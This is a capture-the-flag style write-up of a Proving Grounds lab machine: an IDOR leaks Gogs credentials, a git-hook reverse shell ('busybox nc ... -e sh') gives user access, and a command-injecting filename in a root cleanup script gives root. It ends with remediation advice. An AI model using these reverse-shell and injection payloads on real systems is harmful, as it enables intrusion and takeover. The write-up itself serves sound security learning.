# Assignment  - Proving Ground

| Info          | Details                                                           |
| ------------- | ----------------------------------------------------------------- |
| Platform      | Proving Grounds                                                   |
| Difficulty    | Fundamental                                                       |
| Target IP     | 192.168.125.224                                                   |
| OS            | Linux                                                             |
| Vulnerability | IDOR, Git Service (Gogs),                                         |
| Tools Used    | Nmap, Gobuster, Dirsearch, Searchsploit, John the Ripper, LinPEAS |
## Methodology

- Reconnaissance
- Enumeration
- Vulnerability Identification
- Exploitation
- Post-Exploitation
- Privilege Escalation

# Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

```bash
mkdir assignment
cd assignment
mkdir nmap gobuster exploit
touch users.txt creds.txt
```

# Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='192.168.125.224'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



**Results:**

| Port | Service | Version                |
| ---- | ------- | ---------------------- |
| 22   | ssh     | OpenSSH 8.2p1          |
| 80   | http    |                        |
| 8000 | http    | Golang net/http server |
# Web Application Enumeration

Enumerating http service on Port 80
Directory brute forcing with Gobuster.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42
```



**Results:** Gobuster output shows some interesting directories
+ /robots.txt
+ /login
+ /register
+ /users

Enumerating Web Application on Port 80: `/login`



Also have a register page: `/register`



On `/register`. Create a user `hacker::Hacker123`



Successfully logged in

In users found an `forged_owner` authenticity_token, lets save it



Login the browser as `forged_owner::forged_owner`

While enumerating the website, try to update a note



from the url, i can see we are in note 6, now try to read from note 1 to note 5.



found the password for gogs as `jane::P;4SSw0Rd` in note 1
note 2 - 5 can't find any useful information

Lets enumerate port 8000

![[Pasted image 20251204020554.png]]

While navigate to browser, it shows gogs. Using the credentials discovered earlier `jane::P;4SSw0Rd`



Successfully login as jane
Now I got the password, while enumerating the website cant find any useful information

try to search for public exploit, we can implement the malicious code in the update code so when I commit new git, it will spawn a reverse shell

In the web application navigate to: 
`Explore >> Select new repo >> setting >> Git Hook >> update`



In the update file. Add a line code into it. 
`busybox nc 192.168.45.541 4444 -e sh`

Next, from the guidance of exploiting the web application. It seems like i have to commit to git. Then it will trigger an rce.

```bash
# Set up a listener on another terminal
sudo nc -lnvp 4444

# download  the git folder
git clone http://192.168.125.224:8000/jane/hello.git
cd hello
echo 'testing' > README.md
ls -la
git add README.md
git commit -m "first commit"
git push origin master
```



```bash
whoami
id
cat local.txt
```

**Results**: Successfully retrieved a local shell from the exploitation. Identified the users as `jane`. And retrieved `local.txt`

# Linux Privilege Escalation
```bash
whoami
id
sudo -l
cat /etc/passwd
cat /etc/crontab
cat /etc/shadow
cat /var/mail*
find / -perm -u=s -type f 2>/dev/null
"Didn't get any useful information"

# if all couldn't find any useful information
wget http://192.168.45.198/pspy64
chmod +x pspy64
timeout 120s /tmp/pspy64
```


**Results:** from pspy output discovered root is running `/bin/bash /usr/bin/clean-tmp.sh`

from the code
`find /dev/shm -type f -exec sh -c rm {} ;`

seems like the code will find /dev/shm and run the file code in there, then remove it. 

- The filename is passed into a shell (`sh -c`) **without sanitization**
- This allows **command injection via filename**

```bash
# Create a malicious file name
touch '$(busybox nc 192.168.45.241 445 -e sh)'

# at the same time get listener open
sudo nc -lnvp 445 
```



```bash
whoami
id
cat /root/proof.txt
```

**Results:** Successfully got a root shell. Retrieved `/root/proof.txt`

## **Remediation**

### **1. Web Application Security**

- Implement proper authorization checks (fix IDOR)
- Avoid exposing sensitive data in application content

---

### **2. Credential Management**

- Enforce strong password policies
- Prevent password reuse across services
- Store credentials securely (hashed & salted)

---

### **3. Git Server Security**

- Restrict access to Git hooks
- Disable or sanitize custom hook scripts
- Validate user inputs before execution

---

### **4. Privilege Escalation Mitigation**

- Avoid executing shell commands with unsensitized input
- Replace:
	- `sh -c rm {}` with safer alternatives
- Restrict write access to `/dev/shm`